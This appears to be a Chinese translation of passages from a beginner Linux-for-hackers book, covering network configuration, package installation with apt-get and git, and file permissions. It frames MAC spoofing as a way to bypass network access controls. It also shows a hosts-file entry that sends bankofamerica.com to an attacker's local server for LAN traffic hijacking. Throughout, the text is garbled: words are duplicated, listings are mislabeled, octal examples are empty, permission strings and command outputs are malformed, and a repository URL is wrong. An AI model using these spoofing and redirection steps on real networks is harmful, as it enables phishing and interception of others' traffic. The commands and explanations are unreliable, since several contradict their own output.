要更改 IP 地址，输入 `ifconfig`，后跟你想要重新分配的接口以及分配给该接口的新 IP 地址。例如，要将 IP 地址 `192.168.181.115` 分配给 `eth0` 接口，你需要输入：

```
kali >ifconfig eth0 192.168.181.115
kali >
```

当你操作正确时，Linux 只会返回命令提示符而什么都不说。这是好事！

然后，当你再次使用 `ifconfig` 检查网络连接时，你应该看到你的 IP 地址已更改为你刚刚分配的新 IP 地址。

### 更改你的网络掩码和广播地址

你也可以使用 `ifconfig` 命令更改网络掩码 `netmask` 和广播地址。例如，如果你想为 `eth0` 接口分配相同的 IP、`255.255.0.0` 的网络掩码以及 `192.168.1.255` 的广播地址，你将输入：

```
kali >ifconfig eth0 192.168.181.115 netmask 255.255.0.0 broadcast 192.168.1.255
kali >
```

再次强调，如果你操作得完全正确，Linux 会返回一个新的命令提示符。现在再次输入 `ifconfig` 以验证每个参数是否已相应更改。

### 伪造你的 MAC 地址


你可以使用 `ifconfig` 更改你的 MAC 地址（或 `Hwaddr`）。MAC 地址是全球唯一的，通常被用作安全措施，将黑客拒在网络之外——或者用来追踪他们。将你的 MAC 地址伪造为不同的 MAC 地址几乎是轻而举举，并且可以消除那些安全措施。因此，这是绕过网络访问控制的一项非常有用的技术。

要伪造你的 MAC 地址，只需使用 `ifconfig` 命令的选项指定接口（在本例中为 `eth0`）。然后输入 `ifconfig` 命令，后跟接口名称（`hw` 代表硬件，`ether` 代表以太网）和新的伪造 MAC 地址。最后，使用 `up` 选项恢复接口以使更改生效。这是一个示例：

```
kali >ifconfig eth0 down
kali >ifconfig eth0 hw ether 00:11:22:33:44:55
kali >ifconfig eth0 up
```

现在，当你用 `ifconfig` 检查设置时，你应该看到 `Hwaddr` 已更改为你新的伪造 IP 地址！（注：此处原文可能有误，应为 MAC 地址）

### 从 DHCP 服务器 分配新 IP 地址

Linux 有一个动态主机配置协议（DHCP）服务器，它运行一个守护进程（后台进程），称为 `dhcpd` 或 DHCP 守护进程。DHCP 服务器为子网上的所有系统分配 IP 地址，并保存日志文件，记录何时哪个 IP 地址分配给了哪台机器。这使得取证分析师在攻击后追踪黑客的绝佳资源。因此，理解 DHCP 服务器的工作原理非常有帮助。

通常，为了通过 DHCP 服务器连接互联网，客户端会发送 IP 地址请求。服务器响应一个建议（offer）。客户端接受该建议，服务器确认分配。这一过程被称为 DHCP 握手。在许多情况下，客户端被配置为自动执行此过程。然而，你也可以配置静态 IP 地址，这对于服务器或其他需要固定地址的设备通常非常有用。

```
resolv.conf
1 domain localdomain
2 search localdomain
3 nameserver 192.168.181.2
4
```

图 3-1: 文本编辑器中典型的 `resolv.conf` 文件

如你在第 3 行所示，我的 `nameserver` 被设置为位于 `192.168.181.2` 的本地 DNS 服务器。这运行良好，但如果我想添加或替换该 DNS 服务器，例如将其替换为位于 `8.8.8.8` 的 Google 公共 DNS 服务器，我将向 `/etc/resolv.conf` 文件中添加以下行来指定 `nameserver`：

```
nameserver 8.8.8.8
```

然后我只需要保存文件即可。然而，你也可以通过在命令行输入以下内容来实现相同的效果：

```bash
kali >echo "nameserver 8.8.8.8" > /etc/resolv.conf
```

此命令输出字符串 `nameserver 8.8.8.8` 并将其重定向 (`>`) 到文件 `/etc/resolv.conf`，从而替换当前内容。现在你的 `/etc/resolv.conf` 文件应该看起来如图 3-2 所示。

```
resolv.conf
nameserver 8.8.8.8
2
```

图 3-2: 现在更改 `/etc/resolv.conf` 文件以指定 Google 的 DNS 服务器

如果你现在打开 `/etc/resolv.conf` 文件，你应该看到它将 DNS 请求指向了 Google 的 DNS 服务器，而不是你的本地 DNS 服务器。你的系统现在将访问 Google 公共 DNS 服务器来将域名解析为 IP 地址。这可能意味着域名解析需要稍长的时间（可能是几毫秒）。因此，

为了在保持速度的同时保留使用公共服务器选项，你可能希望在 `resolv.conf` 文件中保留本地 DNS 服务器，并在其后跟随公共 DNS 服务器。操作系统会按照 `/etc/resolv.conf` 中列出的顺序查询每个 DNS 服务器，因此只有当在本地 DNS 服务器中找不到域名时，系统才会引用公共 DNS 服务器。

> 注意
>
> 如果你正在使用 DHCP 地址且 DHCP 服务器提供了 DNS 设置，那么 DHCP 服务器在更新 DHCP 地址时将替换该文件的内容。

### 映射你自己的 IP 地址

系统中一个名为 `hosts` 文件的特殊文件也执行域名到 IP 地址的翻译。`hosts` 文件位于 `/etc/hosts`，与 DNS 类似，你可以使用它来指定你自己的 IP 地址与域名的映射。换句话说，你可以决定在浏览器中输入 `www.microsoft.com`（或任何其他域名）时浏览器访问的是哪个 IP 地址，而不是让 DNS 服务器来决定。作为一名黑客，这对于使用 `dnsspoof` 等工具劫持本地局域网上的 TCP 连接并将流量重定向到恶意 Web 服务器非常有用。

在命令行中，输入以下命令（你可以用你偏好的文本编辑器替换 `leafpad`）：

```bash
kali >leafpad /etc/hosts
```

你现在应该能看到你的 `hosts` 文件了，它看起来会像图 3-3。

```
hosts
127.0.0.1       localhost
127.0.0.1       kali
### 以下行对于支持 IPv6 的主机是理想的
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
```

图 3-3: 默认 Kali Linux `hosts` 文件

默认情况下，`hosts` 文件仅包含到本地主机（`127.0.0.1`）的映射以及你的系统主机名（在此例中为 Kali， `127.0.0.1`）。但你可以添加任何映射到你喜好域名的 IP 地址。作为这种用法的示例，你可以将 `www.bankofamerica.com` 映射到你的本地网站 `192.168.181.131`。

```
127.0.0.1       localhost
127.0.0.1       kali
192.168.181.131   bankofamerica.com
```

### 以下行对于支持 IPv6 的主机是理想的

::1             localhost ip6-localhost ip6-loopback

ff02::1         ip6-allnodes

ff02::2         ip6-allrouters

```

确保你在 IP 地址和域名之间按下的是 `TAB` 键而不是空格键。

随着你深入参与黑客活动并学习如 `dnsspoof` 和 `Ettercap` 等工具，你将能够使用 `hosts` 文件将局域网上任何访问 `www.bankofamerica.com` 的流量重定向到你位于 `192.168.181.131` 的 Web 服务器上。

非常简单，对吧？

### 总结

任何黑客都需要基础的 Linux 网络技能来连接、分析和管理网络。随着你的不断进步，这些技能在进行侦察、欺骗和连接目标系统时将变得越来越有用。

### 练习

在进入第 4 章之前，请尝试完成以下练习来测试你在本章中学到的技能：

- 1. 查找你活跃网络接口的信息。
- 2. 将 `eth0` 上的 IP 地址更改为 `192.168.1.1`。
- 3. 更改 `eth0` 硬件地址。
- 4. 检查任何可用接口。
- 5. 重置 IP 地址。
- 6. 查找 DNS 服务器。
- 7. 将 DNS 服务器添加到 `/etc/resolv.conf`。

### 列表 4-3: 使用 apt-get remove 卸载 Snort

你仍然会看到任务正在实时执行，并且会询问你是否继续。你可以输入 `y` 来卸载，但你可能想保留 Snort，因为我们之后还会使用它。`remove` 命令不会删除配置文件，这意味着你将来可以重新安装同一个包而无需重新配置。

如果你想在删除包的同时也删除配置文件，可以使用 `purge` 选项，如列表 4–4 所示。

```bash
kali >apt-get purge snort

Reading package lists... Done

Building dependency tree

Reading state information... Done

The following packages were automatically installed and are no longer required:

libda0 libprelude2 oinkmaster snort-common-libraries snort-rules-default

-- snip --

Do you want to continue [Y/n]?
```


### 列表 4-4: 使用 apt-get purge 卸载 Snort 及其配置文件

只需在提示符处输入 `y` 即可继续清除软件包包和配置文件。

你可能已经注意到了输出中的“以下软件包已自动安装且不再需要”这一行。为了保持系统简洁和模块化，许多 Linux 软件包被拆分为许多不同程序可能使用的软件单元。当你安装 Snort 时，你安装了 Snort 运行所需的几个依赖项或库。现在你正在删除 Snort，这些其他库或依赖项不再不再了，因此它们也会被删除。

### 更新软件包

软件存储库会定期更新新软件或现有软件的新版本。这些更新不会自动推送到那里，因此你必须请求更新以将这些更新应用到自己的系统中。更新（`update`）不等同于升级（`upgrade`）；更新仅仅是更新可从存储库中下载的软件包列表，而升级则会将软件包升级到存储库中的最新版本。

你可以通过输入 `apt-get` 命令并后跟关键字 `update` 来更新你的单个系统。这将搜索你系统上的所有包并检查是否有可用更新。因此，更新将被下载（参见列表 4-5）。

```bash
kali >apt-get update

Get:1 http://mirrors.ocf.berkeley.edu/kali kali-rolling InRelease [30.5kb]

Get:2 http://mirrors.ocf.berkeley.edu/kali kali-rolling/main amd64 Packages [14.9MB]

Get:3 http://mirrors.ocf.berkeley.edu/kali kali-rolling non-free amd64 Packages [163kb]

Get:4 http://mirrors.ocf.berkeley.edu/kali kali-rolling/contrib amd64 Packages [107 kB]

Fetched 15.2 MB in 1min 4s (236 kB/s)

Reading package lists... Done
```

> 列表 4-5: 使用 apt-get update 更新过时的软件包

你系统上存储库中的可用软件列表将得到更新。如果更新成功，你的终端将显示 `Reading package lists... Done`，如列表 4-5 所示。请注意，存储库的名称以及值（时间、大小等）在你的系统上可能会不同。

### 升级软件包

要升级系统上的现有软件包，请使用 `apt-get upgrade`。由于升级软件包可能会对你的软件产生更改，在输入 `apt-get upgrade` 之前，你必须以 root 身份登录或使用 `sudo` 命令。此命令将升级 apt 知道的系统上的每一个包，这意味着只升级存储在存储库中的包（参见列表 4-6）。升级可能耗时，所以你可能一段时间无法使用系统。

```bash
kali >apt-get upgrade

Reading package lists... Done

Building dependency tree... Done

Calculating upgrade... Done

The following packages were automatically installed and no longer required:

--snip--

The following packages will be upgraded:

--snip--

1101 upgraded, 0 newly installed, 0 to remove and 318 not upgraded.

Need to get 827 MB of archives.

After this operation, 408 MB disk space will be freed.

Do you want to continue? [Y/n]
```

### 列表 4-6: 使用 apt-get upgrade 升级所有过时的软件包

你将在输出中看到系统估算软件包所需的硬盘空间。如果你想继续并有足够的硬盘空间进行升级，请继续并输入 `v`。

### 将存储库添加到你的 sources.list 文件中

存放特定 Linux 发行版软件的服务器被称为存储库（repositories）。几乎每个发行版都有自己的软件存储库——为该发行版开发和配置的——这些存储库与其他发行版配合良好，或者根本无法工作。尽管这些存储库通常包含相同或相似的软件，但它们并不是完全相同的，而且它们有时具有相同软件的不同版本，或完全不同的软件。

你自然会使用 Kali 存储库，它包含了大量的安全和黑客软件。由于 Kali 专门用于安全和黑客攻击，它不包含某些特殊软件和工具，甚至是一些普通的软件。值得添加一两个备份存储库，以防在 Kali 存储库中找不到特定软件时你的系统可以从中进行搜索。

你系统搜索软件的存储库存储在 `sources.list` 文件中，你可以修改此文件以定义你想从哪些存储库下载。我经常在 `sources.list` 文件的 Kali 存储库之后添加 Ubuntu 存储库；这样，当我请求下载新的软件包时，我的系统会首先在 Kali 存储库中查找。

你可以找到 `sources.list` 文件位于 `/etc/sources.list`，可以使用任何编辑器打开它。我将再次使用 Leafpad。要打开 `sources.list`，在终端输入以下内容，将 `leafpad` 替换为你的编辑器。

```bash
kali >leafpad /etc/sources.list
```

输入此命令后，你应该看到一个类似图 4-1 的窗口，其中有 Kali 的默认存储库列表。


图 4-1：sources.list

许多 Linux 发行版将存储库分为不同的类别。例如，Ubuntu 将存储库划分如下：

- main 受支持的开源软件
- universe 社区维护的开源软件
- multiverse 受版权或其他法律问题限制的软件
- restricted 包含专有驱动程序
- backports 包含来自后续版本的软件包

我不建议在 `sources.list` 中使用测试（testing）、实验（experimental）或不稳定（unstable）存储库，因为它们可能会向你的系统下载问题的软件。未充分测试的软件可能会破坏你的系统。

当你请求下载新软件包时，系统会按顺序遍历 `sources.list` 中列出的存储库，并在找到所需软件包时停止。首先检查该存储库是否与你的系统兼容。Kali 和 Ubuntu 一样基于 Debian，因此这些存储库与这些系统配合得很好。

要添加存储库，只需编辑 `sources.list` 文件并将存储库名称添加到列表中并保存文件。例如，你想在 Kali 上使用 Oracle Java 8。默认 Kali 源中没有 Oracle Java 8 的 apt 包，但简单的在线搜索显示 WebUpd8 的精英们创建了一个。如果你将他们的存储库添加到源中，可以使用 `apt-get install oracle-java-installer` 命令安装 Oracle Java 8。在编写时，你需要在 `sources.list` 中添加以下存储库位置：

```
deb http://ppa.launch.net/webupd8team/java/ubuntu trusty main
deb-src http://ppa.launch.net/webupd8team/java/ubuntu precise main
```

### 使用 GUI 安装程序

新版本的 Kali 不再包含 GUI 软件安装工具，但始终可以使用 `apt-get` 命令安装一个。两种最常见的 GUI 安装工具是 Synaptic 和 Gdebi。让我们安装 Synaptic 并使用它来安装我们的 Snort 软件包：

```bash
kali >apt-get install synaptic

Reading package lists... Done

Building dependency tree

Reading state information... Done

--snip--

Processing triggers for menu (2.1.47)...

kali >
```


一旦安装了 Synaptic，你就可以通过设置（Settings）> Synaptic 包管理器（Synaptic Package Manager）来启动它，它会打开一个类似于图 4-2 中的窗口。



图 4-2：Synaptic 包管理器界面

现在你可以搜索正在寻找的软件包。只需点击“搜索（Search）”标签即可打开搜索窗口。由于你再次寻找 Snort，在搜索窗口中输入 `snort` 并点击“搜索（Search）”。滚动搜索结果找到你寻找的软件包。勾选 `snort` 旁边的框，然后点击“应用（Apply）”标签，如图 4-3 所示。Synaptic 现在将从仓库下载并安装 Snort，以及任何必要的依赖项。



图 4-3：从 Synaptic 包管理器下载 Snort

### 使用 git 安装软件

有时，你需要的软件在任何仓库中都不可用——特别是当它是全新的软件时——但它可能在 `https://www.github.com/` 上可用，这是一个允许开发者与其他分享软件以供下载、使用和提供反馈的网站。例如，如果你想要 `bluediving`（一个蓝牙黑客和渗透测试套件），但在 Kali 仓库中找不到它，你可以在搜索栏中输入 `bluediving` 来在 `github` 上搜索该软件。如果它存在于 `github` 上，你应该会在搜索结果中看到它的仓库。

一旦你在 `github` 上找到了该软件，你就可以通过终端中输入 `git clone` 命令后跟上其 `github` URL 来安装它。例如，`bluediving` 位于 `https://www.github.com/balle/bluediving.git`。要将其克隆到你的系统中，请输入列表 4-7 中的命令。

```
kali git clone https://www.github.com/balle/bluediving.git

Cloning into 'bluediving'...

remote: Counting objects: 131, reused 0 (delta 0), pack-reused 131

Receiving objects: 100% (131/131), 900.81 KiB | 646.0 KiB/s, Done.

Resolving deltas: 100 (9/9), Done.

Checking connectivity... Done.
```

#### 列表 4-7：使用 git clone 克隆 bluediving

`git clone` 命令将该位置的所有数据和文件复制到你的系统上。你可以在目标目录上使用长列列表命令 `ls -l` 来检查它们是否已成功下载，如下：

```
kali >ls -l
```

```
total 80

drwx-xr-x 2 root root 4096 Jan 10 22:19 bluediving

drwx-xr-x 2 root root 4096 Dec S 11:17 Desktop

drwx-xr-x 2 root root 4096 Dec S 11:17 Documents

drwx-xr-x 2 root root 4096 Dec S 11:17 Downloads

drwx-xr-x 2 root root 4096 Dec S 11:17 Music

--snip--
```

如果你已成功将 `bluediving` 克隆到你的系统，你应该会看到以下输出：

如你所见，`bluediving` 已成功克隆到系统，并为它的文件创建了一个名为 `bluediving` 的新目录。

### 总结

在本章中，你学习了在 Linux 系统上下载和安装新软件的许多方法之一。软件软件包管理器（如 `apt`）、基于 GUI 的安装程序和 `git` 克隆是有志的黑客需要掌握的最常见且最重要的方法。你很快就会发现自己熟悉了每种方法。

### 练习

在进入第 5 章之前，请通过完成以下练习来尝试你在本章中学到的技能：

- 1. 从 Kali 仓库安装一个新的软件软件包。
- 2. 删除相同的软件软件包。
- 3. 更新你的仓库。
- 4. 升级你的软件软件包。
- 5. 从 `github` 选择一个新软件并将其克隆到你的系统。



## 5 控制文件和目录权限


并不是同一个操作系统的每个用户都应该对文件和目录具有相同级别的访问权限。就像任何专业系统一样，权限控制至关重要。每个文件和目录都有三个所有者：所有者（owner）、组（group）和其他人（others）。每个所有者都有三种权限：读取（read）、写入（write）和执行（execute）。

权限通常通过 `ls -l` 命令查看，输出格式类似于 `-rw-r--r--`。其中第一个字符表示文件类型（`-` 表示文件，`d` 表示目录），接下来的三位分别代表所有者、组和其他其他人的权限。我们可以使用 `chmod` 命令来更改这些权限。

有两种更改权限的常用方法：符号模式（symbolic mode）和八进制模式（octal mode）。

符号模式使用字符如 `+`（添加权限）、`-`（移除权限）或 `=`（设置权限），配合 `r`（读）、`w`（写）、`x`（执行）以及目标 `u`（所有者）、`g`（组）或 `o`（其他人）来操作。例如，`chmod u+x filename` 为所有者添加执行权限。

八进制模式则使用数字来表示权限：`r=4`、`w=2`、`x=1`。将这些数字相加即可得到权限值，例如，`7` (4+2+1) 表示读写执行，`6` (4+2) 表示读写，`5` (4+1) 表示读执行。例如，`chmod 755 filename` 会为所有者设置读写执行权限，为组和其他其他人设置读执行权限。

此外，我们还可以使用 `chown` 命令来更改文件的所有者，使用 `chgrp` 命令来更改文件的所属组。

### 更改所有者

要更改文件的所有者，我们可以使用 `chown`（change owner）命令。例如：

```
kali >chown bob filename
```

此命令将 `filename` 的所有者改为 `bob`。

### 更改组

要将文件的所有权从一个组转移到另一个，我们可以使用 `chgrp`（change group）命令。例如：

```
kali >chgrp developers filename
```

此命令将 `filename` 的所属组改为 `developers`。

### 检查权限

当你想查找某个文件或目录向哪些用户授予哪些权限时，请使用 `ls` 命令并配合 `-l`（长格式）开关，以长格式显示目录内容——此列表将包含权限信息。在列表 5-1 中，我对文件 `/usr/share/hashcat`（我使用的密码破解工具之一）使用了 `-l` 命令，以便查看我们能从这些文件中学学习到什么。

```
kali -ls /usr/share/hashcat

total 32952

1 2 3 4      5 6             7

drwxr-xr-x 5 root root 4096 Dec 5 10:47 charsets

-rw-r-r-- 1 root root 33685504 June 28 2018 hashcat.hcstat

-rw-r-r-- 1 root root 33685504 June 28 2018 hashcat.hctune

drwxr-xr-x 2 root root 4096 Dec 5 10:47 masks

drwxr-xr-x 2 root root 4096 Dec 5 10:47 OpenCL

drwxr-xr-x 3 root root 4096 Dec 5 10:47 rules
```


列表 5-1：使用长列表命令检查文件的权限

在每一行中，我们获得关于以下的信息：

- 1 文件类型
- 2 分别对应所有者、用户组和用户的文件权限
- 3 链接数（此主题超出了本书的范围）
- 4 文件的所有者
- 5 文件以字节为单位的尺寸
- 6 文件创建或最后修改的时间
- 7 文件名

现在，让我们关注每行左侧那些看似不可理解的字母和连字符符组成的字符串。它们告诉我们某个项是文件还是目录，以及它具有什么样的权限权限。

第一个字符告诉你文件类型，其中 `d` 代表目录，横杠（`-`）表示文件。这是最常见的两种文件类型。

下一部分定义了文件的权限。由三组三个字符组成，由读 `r`、写 `w` 和执行 `x` 的某种组合按顺序组成。第一组代表所有者的权限；第二组是用户组的权限；最后一组是所有用户的权限。

无论你查看的是哪一组三个字母，如果你先看到 `r`，则说明用户或用户组有权限打开并读取该文件或目录。中间字母为 `w` 意味着他们可以写入（修改）文件或目录，结尾的 `x` 意味着他们可以执行（运行）该文件或目录。如果任何 `r`、`w` 或 `x` 被横杠（`-`）替换，则相应的权限未授予。注意，用户可能仅具有执行二进制文件或脚本的权限。

让我们以列表 5-1 输出中的第三行作为示例：

```
-rw-r---- 1 root root 33685504 June 28 2018 hashcat.hcstat
```

正如我们从行末尾所知，该文件名为 `hashcat.hcstat`。在初始的 `-`（表示这是一个文件）之后，权限 `rw-` 告诉我们所有者具有读写权限，但没有执行权限。

下一组权限（`r--`）代表用户组的权限，显示用户组具有读取权限，但没有写入或执行权限。最后，我们看到其他用户也只有读取权限（`r--`）。

这些权限并不是一成不变的。作为 root 用户或文件所有者，你可以更改它们。接下来，我们将恰这样做。

### 修改权限

我们可以使用 Linux 命令 `chmod`（或更改模式）来更改权限。只有 root 用户或文件的所有者才能更改权限。

在本节中，我们将使用两种不同的方法通过 `chmod` 更改 `hashcat.hcstat` 的权限。首先我们使用权限的数字表示法，然后使用符号表示法。

#### 使用十进制符号更改权限

我们可以使用快捷方法，通过使用单个数字表示一组 `rwx` 权限来引用权限。就像操作系统底层的一切一样，权限是用二进制表示的，因此“开启”和“关闭”开关分别用 `1` 和 `0` 表示。你可以将 `rwx` 权限想象成开启/关闭开关，因此当所有权限都已授予时，这等同于二进制的 `111`。

这样的二进制集可以通过将其转换为八进制轻松地表示为一个数字，八进制是一种从 0 开始到 7 的八位数字系统。一个八进制数字代表一组三个二进制位，这意味着我们可以用一个数字表示整个 `rwx` 组。表 5-1 包含了所有可能的权限组合及其八进制和二进制表示。

表 5-1：权限的八进制和二进制表示

| 二进制 | 八进制 | rwx |
|---|---|---|
| 000 | 0 | --- |
| 001 | 1 | --x |
| 010 | 2 | -w- |
| 011 | 3 | -wx |
| 100 | 4 | r-- |
| 101 | 5 | r-x |
| 110 | 6 | rw- |
| 111 | 7 | rwx |

使用这些信息，让我们通过列表 5-1 的输出来看例子。首先，如果我们只想设置读取权限，我们可以查阅表 5 并找到：

```
r w
```

接下来，如果我们想设置 `wx` 权限，我们可以查看 `w` 和 `x` 的值：

```
r w
```

最后，如果我们想设置所有权限，我们可以看到：

```
r w x
```

这些权限并不是固定的。作为 root 用户或文件所有者，你可以更改它们。接下来，我们将恰这样做。

#### 使用 UGO 更改权限

虽然数字方法可能是更改权限最常用的，但有些人人认为符号方法更直观。符号方法通常被称为 UGO，代表用户（所有者）、用户组和其他用户。

UGO 语法非常简单。输入 `chmod` 命令，然后是三个运算符之一：

- 移除权限
- 添加权限
- 设置权限

在运算符之后，包含你想添加或移除的权限 `rwx`，最后是要操作的文件名。所以如果你想从拥有 `hashcat.hcstat` 的用户移除写入权限，你可以输入：

```
kali >chmod-w hashcat.hcstat
```

此命令表示从用户移除 `hashcat.hcstat` 的写入 `w` 现在现在再次使用 `ls -l` 检查权限时，你会看到 `hashcat.hcstat` 文件不再具有用户的写入权限了：

```
kali ~ls -l

total 32952

drwxr-xr-x 5 root root 4096 Dec 5 10:47 charsets

-r-xr-x-- 1 root root 33685504 June 28 2018 hashcat.hcstat

-rw-r-r-- 1 root root 33685504 June 28 2018 hashcat.hctune

drwxr-xr-x 2 root root 4096 Dec 5 10:47 masks

drwxr-xr-x 2 root root 4096 Dec 5 10:47 OpenCL

drwxr-xr-x 3 root root 4096 Dec 5 10:47 rules
```

你也可以通过一个命令更改多个权限。如果你想给用户和其他用户（不包括用户组）执行权限，你可以输入：`chmod u+x, o+x hashcat.hcstat`

### 为新工具赋予 root 执行权限

作为黑客，你经常需要下载新的黑客工具，但 Linux 会自动为所有文件和目录分配默认权限 666 和 777。这意味着，默认情况下，你无法在下载后立即执行该文件。如果你尝试，你会收到一条类似“拒绝访问”的消息。对于这些

在某些情况下，你需要使用 `chmod` 赋予自己 root 和执行权限以便执行该文件。

例如，假设我们下载了一个名为 `newhackertool` 的新黑客工具，并将其放在 root 用户目录 `/` 下。

```
kali >ls -l

total 80

drwxr-xr-x 7 root root 4096 Dec 5 11.17 Desktop

drwxr-xr-x 7 root root 4096 Dec 5 11.17 Documents

drwxr-xr-x 7 root root 4096 Dec 5 11.17 Downloads

drwxr-xr-x 7 root root 4096 Dec 5 11.17 Music

-rw-r--r-- 1 root root 1072 Dec 5 11.17 newhackertool

drwxr-xr-x 7 root root 4096 Dec 5 11.17 Pictures

drwxr-xr-x 7 root root 4096 Dec 5 11.17 Public

drwxr-xr-x 7 root root 4096 Dec 5 11.17 Templates

drwxr-xr-x 7 root root 4096 Dec 5 11.17 Videos
```

我们在 Ⓘ 看到了 `newhackertool`，以及 root 目录的其他内容。我们可以看到，我们的 `newhackertool` 对任何人都没有执行权限。这使得它无法使用。Linux 默认不允许你执行下载的文件，这似乎很奇怪，但总的来说，这种设置让你的系统更加安全。

我们可以通过输入以下命令赋予自己执行 `newhackertool` 的权限：

```
kali >chmod 766 newhackertool
```

现在，当我们对目录进行列列显示时，可以看到我们的 `newhackertool` 为所有者拥有权限：

```
kali >chmod 766 newhackertool

kali >ls -l

total 80

--snip---

drwxr-xr-x 7 root root 4096 Dec 5 11.17 Music

-rwrw-rw-- 1 root root 1072 Dec 5 11.17 newhackertool evendrwxr-xr-x 7 root root 4096 Dec 5 11.17 Pictures

--snip--
```


正如你现在所理解的，这赋予了我们（所有者）所有权限，包括执行权限，并仅赋予组和其他人员读和写权限（4 + 2 = 6）。

## 使用掩码设置更安全的默认权限

正如你所看到的，Linux 会自动分配基础权限——通常文件为 `666`，目录为 `777`。你可以使用 `umask`（或 unmask）方法更改每个用户创建的文件和目录分配的默认权限。`umask` 方法代表了你为了提高安全性而想要从文件或目录的基础权限中移除的权限。

`umask` 是一个三位数数字，对应三个权限数字，但 `umask` 数字是从权限数字中减去得到新的权限状态。这意味着当创建一个新文件或目录时，其权限被设置为默认值减去 `umask` 中的值，如图 5–1 所示。

| 新文件 | 新目录 | Linux 基础权限 |
| --- | --- | --- |
| 666 | 777 | umask |
| -022 | -022 | |
| 644 | 755 | 结果权限 |

图 5-1：`umask` 022 值如何影响新文件和目录的权限

例如，如果将 `umask` 设置为 `022`，原始默认权限为 `666` 的新文件现在将具有 `644` 权限，这意味着所有者同时拥有读和写权限，而组和其他所有用户只有读权限。

在 Kali 中（与大多数 Debian 系统一样），`umask` 预配置为 `022`，这意味着 Kali 默认文件为 `644`，目录为 `755`。

`umask` 值并非适用于系统的所有用户。每个用户都可以在个人的 `.profile` 文件中为文件和目录设置个人的默认 `umask` 值。若要在以用户身份登录时查看当前值，只需输入 `umask` 命令并注意返回的内容。要更改用户的 `umask` 值，请编辑 `/home/username/.profile` 文件，例如，添加 `umask 007` 以设置仅允许用户和该用户组成员拥有权限。

### 特殊权限

除了三个通用权限 `rwx` 之外，Linux 还有三种稍微复杂的特殊权限。这些特殊权限是：设置用户 ID（或 SUID）、设置组 ID（或 SGID）和粘滞位（sticky bit）。我将在接下来的三个部分中逐一讨论。

### 使用 SUID 授予临时 root 权限

